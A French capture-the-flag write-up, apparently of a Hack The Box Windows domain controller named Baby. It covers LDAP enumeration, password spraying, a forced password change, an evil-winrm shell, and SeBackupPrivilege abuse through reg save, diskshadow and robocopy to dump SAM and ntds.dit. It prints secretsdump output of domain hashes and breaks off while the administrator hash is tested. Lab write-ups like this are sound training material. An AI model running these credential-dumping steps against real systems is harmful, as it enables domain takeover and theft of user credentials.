Baby est une machine Windows facile à utiliser, dotée de l'énumération LDAP, de la dispersion de mots de passe et de l'exposition des identifiants. Pour l'élévation des privilèges, la faille `SeBackupPrivilege` est exploitée pour extraire le registre SYSTEM et le fichier `NTDS.dit`. Une attaque `Pass-the-Hash` peut être réalisée en utilisant les hachages de domaine non couverts, obtenant ainsi un accès Administrateur.

## Enumération
### Nmap

Le scan révèle 19 ports ouverts.
```sh
╭─root@exegol-htb /workspace/Baby
╰─➤  rustscan -a 10.129.195.51 -- -A
--SNIP--
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-10-02 15:55:59Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-18T12:14:43
| Not valid after:  2026-02-17T12:14:43
| MD5:   0321bf6e5491db70a4149f0b3b104b00
| SHA-1: f1dd7df6498495af6ca2e50e0fdae11aa84dcda5
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcigAwIBAgIQcx5FdJf0qLtO4yv+5PuH2zANBgkqhkiG9w0BAQsFADAZ
| MRcwFQYDVQQDEw5CYWJ5REMuYmFieS52bDAeFw0yNTA4MTgxMjE0NDNaFw0yNjAy
| MTcxMjE0NDNaMBkxFzAVBgNVBAMTDkJhYnlEQy5iYWJ5LnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwc2kSFwv2JvtdgsXNK/Tiwh2yqNd22KrACou
| hzgqCij41ZS1gTcD+tFFFo2rgQ22rg8zBz8AhvSFIdqT19HfLe+ghXZT4/e13BTT
| ibrD814rd55wcLuoa9hxZjpU3pPN9W9SkHaF77G5a6AzB1+HjTWVtMJxClJAnpRm
| iWnPOwvhsdNJUeNl2Npx8MtftbuHNvCZ2h5Wxzcyxjw7ZeAI6ysi5sSRtEeDvcqR
| uHt3UjatHirs76lir5zlxm52aUdrhRCPD77RoGU5D1CcsCraKPEVUAvLbkio2JPT
| aaYJ8E+zI8wpgDijCuEYyt/piEIq/F9aappfnOSyhDlsgzZHfQIDAQABoyQwIjAT
| BgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQAD
| ggEBALYrswTrxcf3pCupW/vFNUgEi2Xrh6fjtFsuerzuuCb3ODmeQqj4Pg1qBoeC
| X+j3v33A4Ze0s2dbk512tBxi3+dNI/cl4EQyETMu4b7fqsYkeogKsg0luEJXSt+y
| scC0LOFJpVoFmo4CYVISqsRQlI1qVEVtup1LSoNZNwX3lEBc6HenqG+Xigz6G/Rl
| jzWfNDsvU5qzd1B3FJALwq/peYS6H7DFwMgpiBtQCdcGAwj8Po/vfSQHMwWY4cd0
| D3ayH/t6JCPt1DCusE1YjM3Hu6X7AjJiIW5QjVN83+90jV2D+jeYrUv5W8UmVM1r
| FkmiutEESB5awZaenoWT83gDZ1Q=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-10-02T15:57:34+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-10-02T15:56:55+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51554/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57975/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
57976/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57985/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=10/2%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=68DEA0F1%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.003 days (since Thu Oct  2 17:53:13 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-10-02T15:56:56
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 33386/tcp): CLEAN (Timeout)
|   Check 2 (port 60729/tcp): CLEAN (Timeout)
|   Check 3 (port 41102/udp): CLEAN (Timeout)
|   Check 4 (port 49221/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

Le scan révèle aussi le nom de domaine `baby.vl` ainsi que le hostname `BABYDC`. Je l'ai ajoute tous les deux dans le fichier `/etc/hosts`.



### DNS - TCP 53

Je fais du Zone transfert mais je ne trouve rien.
```sh
╭─root@exegol-htb /workspace/Baby
╰─➤  dig axfr baby.vl @10.129.195.51 +noall +answer
; Transfer failed.
```

Ensuite je récupère tous les enregistrements DNS disponibles. Mais là aussi rien d’intéressant.
```sh
╭─root@exegol-htb /workspace/Baby
╰─➤  dig any baby.vl @10.129.195.51 +noall +answer
baby.vl.                600     IN      A       10.10.76.161
baby.vl.                3600    IN      NS      babydc.baby.vl.
baby.vl.                3600    IN      SOA     babydc.baby.vl. hostmaster.baby.vl. 67 900 600 86400 3600
```


### SMB - TCP 445

Je m'attaque ensuite au SMB. Je vois que l'authentification anonyme échoue et que le compte `Guest` est désactivé.
```sh
╭─root@exegol-htb /workspace/Baby
╰─➤  nxc smb babydc.baby.vl -u '' -p '' --shares
SMB         10.129.195.51   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.195.51   445    BABYDC           [+] baby.vl\:
SMB         10.129.195.51   445    BABYDC           [-] Error enumerating shares: STATUS_ACCESS_DENIED

╭─root@exegol-htb /workspace/Baby
╰─➤  nxc smb babydc.baby.vl -u guest -p '' --shares
SMB         10.129.195.51   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.195.51   445    BABYDC           [-] baby.vl\guest: STATUS_ACCOUNT_DISABLED
```


### LDAP - TCP 389

J'arrive à m'authentifier avec LDAP et à lister les utilisateurs du domaine. Je vois alors un message comme contenant le mot de passe `BabyStart123!`.
```sh
nxc ldap babydc.baby.vl -u '' -p '' --users
```



## Shell as Caroline.Robinson

### Password spray

Je teste alors ce mot de passe sur les utilisateurs recensés. Mais il n'appartient à aucun d'eux.
```shell
nxc smb babydc.baby.vl -u users.lst -p 'BabyStart123!' --continue-on-success
```



### User enumeration

Même avec `ldapsearch`, je ne trouve toujours que cette liste d'utilisateurs.
```shell
ldapsearch -H ldap://baby.vl -x -b "DC=BABY,DC=VL" -s sub "(&(objectclass=user))"  | grep 'sAMAccountName:'
```


Je decide alors de récupérer tous les objets du domaines.
```shell
ldapsearch -H ldap://baby.vl -x -b "DC=BABY,DC=VL" -s sub "(&(objectclass=*))" > ldapsearch.out
```

En regardant le contenu du fichier, je remarque un utilisateur (`Ian Walker`) qui n’était pas présent lors de l’énumération d'utilisateurs.


Je continue pour voir s'il y en a d'autres. Je trouve alors un autre utilisateur : `Caroline Robinson`.



### Change Caroline's password

L'erreur `STATUS_PASSWORD_MUST_CHANGE` est là pour indiquer que le mot de passe doit être modifié lors de la prochaine connexion de l'utilisateur.


A l'aide du module `change-password` de `netexec`, je peux changer le mot de passe d'un utilisateur. En tant qu'utilisateur anonyme, je n'ai pas suffisamment de droits pour changer  le mot de passe de Caroline.
```shell
nxc smb babydc.baby.vl -u '' -p '' -M change-password -o USER=Caroline.Robinson NEWPASS=Password123
```


Mais je peux le faire avec les identifiants actuels car, je peux me connecter avec ces derniers.
```shell
nxc smb babydc.baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```


Le changement de mot de passe est effectif.
```shell
╭─root@exegol-htb /workspace/Baby
╰─➤  nxc winrm babydc.baby.vl -u Caroline.Robinson -p 'Password123'
WINRM       10.129.195.51   5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
WINRM       10.129.195.51   5985   BABYDC           [+] baby.vl\Caroline.Robinson:Password123 (admin)
```

### evil-winrm

Je peux donc avoir un shell.
```shell
evil-winrm -i babydc.baby.vl -u Caroline.Robinson -p 'Password123'
```



## Shell as root
### SeBackupPrivilege

`Caroline.Robinson` est membre du groupe `Backup Operators`.


Elle dispose aussi du privilège `SeBackupPrivilege`. Cela lui permet de lire tous les fichiers du système. Je peux donc abuser de cela pour lire la SAM.


Je me suis servi de cet article de [hackingarticles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) pour exploiter ce privilège.
```powershell
# Récupérer la SAM et SYSTEM
mkdir c:\temp
cd c:\temp
reg save hklm\sam c:\temp\sam
reg save hklm\system c:\temp\system

# Téléchager la SAM et SYSTEM
download sam
download system
```


Puis à l'aide de `pypykatz`, je lis le contenu de la SAM.
```shell
pypykatz registry --sam sam system
```


Le hash de l'administrateur n'est pas valide.
```shell
╭─root@exegol-htb /workspace/Baby
╰─➤  nxc smb babydc.baby.vl -u administrator -H 8d992faed38128ae85e95fa35868bb43
SMB         10.129.195.51   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.195.51   445    BABYDC           [-] baby.vl\administrator:8d992faed38128ae85e95fa35868bb43 STATUS_LOGON_FAILURE
```

### Shadow Copy

Je décide alors de télécharger le fichier `ntds.dit` qui est une base de données Active Directory qui stocke les informations du domaine y compris des hash des utilisateurs.. Ce fichier ne peux être copier simplement. Pour cela, il me faut créer utiliser la technique du `Shadow Copy`.
Pour simplifier le processus, nous allons créer un fichier Shell distribué (fichier `.dsh`). Ce fichier contiendra toutes les commandes nécessaires à l'exécution de `DiskShadow` et créera une copie complète de notre disque Windows. Une fois cette copie créée, nous pourrons l'utiliser pour extraire le fichier `ntds.dit`.
Ensuite j'utilise l'outil [unix2dos](https://manpages.debian.org/testing/dos2unix/unix2dos.1.fr.html) pour le rendre compatible au format Windows.


Une fois terminé, je l'uploade sur la machine cible. Puis j'utilise l'outil intégré à Windows `diskshadow` pour créer une copie du disque en cours d'utilisation.
```powershell
upload baby.dsh
diskshadow /s baby.dsh
```


Ensuite avec `robocopy`, je récupère le fichier `ntds.dit`.
```powershell
robocopy /b z:\windows\ntds . ntds.dit
```


Je télécharge ensuite le fichier `ntds.dit` pour lire son contenu sur localement.


Une fois le fichier `ntds.dit` sur ma machine, je peux lire son contenu avec `secretsdump`.
```shell
╭─root@exegol-htb /workspace/Baby
╰─➤  secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:3d538eabff6633b62dbaa5fb5ade3b4d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:5fa67a134024d41bb4ff8bfd7da5e2b5:::
```

Ce hash est valide.
```shell
╭─root@exegol-htb /workspace/Baby
